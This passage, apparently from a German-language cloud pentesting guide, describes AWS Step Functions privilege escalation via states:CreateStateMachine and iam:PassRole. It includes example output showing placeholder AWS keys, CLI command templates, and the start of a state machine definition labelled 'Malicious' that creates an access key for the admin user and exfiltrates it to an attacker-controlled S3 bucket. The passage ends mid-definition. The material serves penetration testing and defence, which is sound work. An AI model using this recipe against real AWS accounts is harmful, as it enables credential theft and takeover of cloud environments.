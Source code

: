 ```bash
\"AccessKeyId\":\"AKIA1A2B3C4D5E6F7G8H\",
\"CreateDate\":\"2024-07-09T16:59:11Z\",
\"SecretAccessKey\":\"1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j\",
\"Status\":\"Active\",
\"UserName\":\"admin\"
}
}",
"status": "SUCCEEDED"
}
```
**Potenzielle Auswirkungen**: Unbefugte Ausführung und Manipulation von Workflows sowie Zugriff auf sensible Ressourcen, was zu erheblichen Sicherheitsverletzungen führen kann.

### `states:CreateStateMachine` & `iam:PassRole` & (`states:StartExecution` | `states:StartSyncExecution`)

Ein Angreifer mit **`states:CreateStateMachine`** & **`iam:PassRole`** wäre in der Lage, eine Zustandsmaschine zu erstellen und ihr jede IAM-Rolle zuzuweisen, was unbefugten Zugriff auf andere AWS-Dienste mit den Berechtigungen der Rolle ermöglicht. Im Gegensatz zur vorherigen Privilegieneskalationstechnik (**`states:TestState`** & **`iam:PassRole`**) wird diese nicht von selbst ausgeführt; Sie müssen auch die Berechtigungen **`states:StartExecution`** oder **`states:StartSyncExecution`** haben (**`states:StartSyncExecution`** ist **nicht für Standard-Workflows verfügbar**, **nur für Ausdruckszustandsmaschinen**) um eine Ausführung über die Zustandsmaschine zu starten.
```bash
# Create a state machine
aws states create-state-machine --name <value> --definition <value> --role-arn <value> [--type <STANDARD | EXPRESS>] [--logging-configuration <value>]\
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]

# Start a state machine execution
aws states start-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]

# Start a Synchronous Express state machine execution
aws states start-sync-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]
```
Die folgenden Beispiele zeigen, wie man eine Zustandsmaschine erstellt, die einen Zugriffsschlüssel für den **`admin`**-Benutzer erstellt und diesen Zugriffsschlüssel in einen von einem Angreifer kontrollierten S3-Bucket exfiltriert, indem diese Berechtigungen und eine großzügige Rolle der AWS-Umgebung genutzt werden. Diese großzügige Rolle sollte mit einer hochprivilegierten Richtlinie verknüpft sein (zum Beispiel **`arn:aws:iam::aws:policy/AdministratorAccess`**), die es der Zustandsmaschine ermöglicht, die Aktionen **`iam:CreateAccessKey`** und **`s3:putObject`** auszuführen.

- **stateMachineDefinition.json**:
```json
{
"Comment": "Malicious state machine to create IAM access key and upload to S3",
"StartAt": "CreateAccessKey",
"States": {
"CreateAccessKey": {
"Type": "Task",
"Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
"Parameters": {
"UserName": "admin"
},
"ResultPath": "$.AccessKeyResult",
"Next": "PrepareS3PutObject"
},
"PrepareS3PutObject": {
"Type": "Pass",
"Parameters": {
"Body.$": "$.AccessKeyResult.AccessKey",
```